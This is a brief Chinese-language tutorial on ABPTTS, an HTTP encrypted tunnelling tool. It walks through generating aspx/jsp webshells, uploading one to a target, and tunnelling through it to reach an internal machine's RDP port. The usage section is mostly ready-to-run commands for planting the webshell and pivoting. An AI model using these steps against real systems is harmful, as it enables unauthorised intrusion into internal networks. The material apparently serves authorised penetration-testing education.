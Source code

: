 ```yaml
---
title: "ABPTTS"
id: zhfly3437
---
```


## 介绍

Abptts是一款基于python2.7的http加密隧道工具，Abptts能做的很多：

1.  通过http加密隧道转发至目标内网下指定的单个TCP端口

2.  通过http加密隧道同时转发至目标内网下的多台机器上的多个tcp端口

3.  把ssh隧道包裹在http加密隧道中传递，对目标二级内网进行穿透

#### 缺点：不支持PHP

## 使用流程

```
git clone https://github.com/nccgroup/ABPTTS.git
pip install pycrypto
pip install httplib2
cd ABPTTS
python abpttsfactory.py ‐o webshell 
```

在webshell目录里有aspx、jsp等脚本

将对应格式的脚本上传至测试机

```
python abpttsclient.py -c webshell\config.txt -u "http://www.0-sec.org/abptts.aspx" -f 127.0.0.1:1112/127.0.0.1:3389
mstsc 127.0.0.1:1112 
```

设置本地代理 访问内网
